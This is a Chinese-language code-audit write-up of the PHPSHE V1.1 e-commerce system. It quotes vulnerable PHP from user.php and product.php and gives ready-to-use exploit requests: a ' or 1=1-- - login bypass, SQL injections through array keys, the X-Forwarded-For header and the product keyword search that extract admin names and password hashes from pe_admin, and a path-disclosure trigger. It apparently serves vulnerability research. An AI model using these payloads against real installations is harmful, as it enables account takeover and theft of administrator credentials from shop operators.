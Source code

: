 ## **PHPSHE V1.1 （三）**

### **user.php**
接下來，我們來看看`user`模塊。

```php
//Line:10

case 'login':
    if (isset($_p_pesubmit)) {
        $_p_info['user_pw'] = md5($_p_info['user_pw']);
        if ($info = $db->pe_select('user', $_p_info)) {
```

亮點在這裡`if ($info = $db->pe_select('user', $_p_info)) {`，只要$info不為空就成功登入了。
<p>
簡單來一發萬能密碼,用戶名：`' or 1=1-- -`，密碼隨意就ok了


### **【Bug 0x09: SQL注入 任意用戶登入】**

URL:

<pre>
/index.php?mod=user&act=login
</pre>

DATA:
<pre>
info%5Buser_name%5D=1' or 1=1-- -
&info%5Buser_pw%5D=123456
&pesubmit=
</pre>

繼續看
```php
//Line:168

case 'base':
    if (isset($_p_pesubmit)) {
        if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {
            pe_success('基本訊息修改成功！');
        }
        else {
            pe_error('基本訊息修改失敗...');
        }
    }
    $info = $db->pe_select('user', array('user_id'=>$_s_user_id));

    $seo = pe_seo($menutitle='基本訊息');
    include(pe_tpl('user_base.html'));
```

亮點在`if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {`。
<p>
我們跟進`pe_dbhold()`函數

```php
//Line:30

//資料庫安全
function pe_dbhold($str, $exc=array())
{
    if (is_array($str)) {
        foreach($str as $k => $v) {
            $str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
        }
    }
    else {
        $str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
    }
    return $str;
}
```

此處對陣列的值進行了過濾，但是對陣列的鍵沒有處理。
<br >
我們跟進`pe_update()`函數


```php
public function pe_update($table, $where, $set)
{
    //處理設置語句
    $sqlset = $this->_doset($set);
    //處理條件語句
    $sqlwhere = $this->_dowhere($where);
    return $this->sql_update("update `".dbpre."{$table}` {$sqlset} {$sqlwhere}");    
}
```

### **【Bug 0x06】** 一樣，經過`_dowhere()`處理、一樣可以對其進行注入。

```【Bug 0x09: SQL注入 獲取任意資料庫數據】```
<p>
URL:
<pre>
/index.php?mod=user&act=base
</pre>

<p>
DATA:
<pre>
info%5Buser_address`%3D(select concat(0x7e,admin_name,0x7e,admin_pw,0x7e) from pe_admin limit 1) , `user_tname%5D=1
</pre>


**product.php**
<p>
第一個操作**商品諮詢**就可能存在一個小BUG。

```php
//Line:5

case 'askadd':
    if (isset($_p_pesubmit)) {
        ...
        $info['ask_text'] = pe_texthtml(pe_dbhold($_p_ask_text));
        ...
        $info['user_ip'] = pe_ip();
        if ($db->pe_insert('ask', $info)) {
            ...
            $info['ask_text'] = htmlspecialchars($_p_ask_text);
```


## **【Bug 0x10: 訊息洩漏 Warning】**
POST:
<p>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<br>
DATA:
<p>
<pre>ask_text[]=asfasdfasfs&pesubmit=true</pre>
<br>

錯誤訊息
<pre>
Warning: nl2br() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\include\function\global.func.php
Warning: htmlspecialchars() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\module\index\product.php
</pre>

然後還有一個亮點`$info['user_ip'] = pe_ip();`，我們跟進`pe_ip()`函數

```php
//Line : 333

//獲取IP
function pe_ip()
{
    if (isset($_SERVER)){
        if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
            $realip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    ...
    return $realip;
```

明顯的XFF注入。只要在寫入資料庫的時候用到了這個函數獲取IP的地方、、都是一樣的注入。

### **【Bug 0x11: SQL注入 獲取任意資料庫數據】**
POST:
<br>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<p>
x-forwarded-for:
<pre>
1', `ask_replytext` = (select concat(0x7e,admin_name,0x7e,admin_pw,0x7e)  from pe_admin limit 1)#
</pre>
返回的訊息在商品、賣家回覆裡。
<br >
再往下看，在 **商品列表** 操作中、又是一個大大的BUG出現了。

```php
//Line:83

case 'list':
    ...
    $_g_keyword && $sqlwhere .= " and `product_name` like '%{$_g_keyword}%'";
    ...
    $info_list = $db->pe_selectall('product', $sqlwhere, '*', array(16, $_g_page));
```

WHERE條件帶入了未經過濾的`$_g_keyword`變數。
<br>
### **【Bug 0x12: SQL注入 獲取任意資料庫數據】**
URL:
```php
/index.php?mod=product&act=list&id=1&keyword=%' union select 1,admin_pw,1,1,1,admin_name,1,1,1,1,1,1,1,1,1,1,1,1,1 from pe_admin-- -
```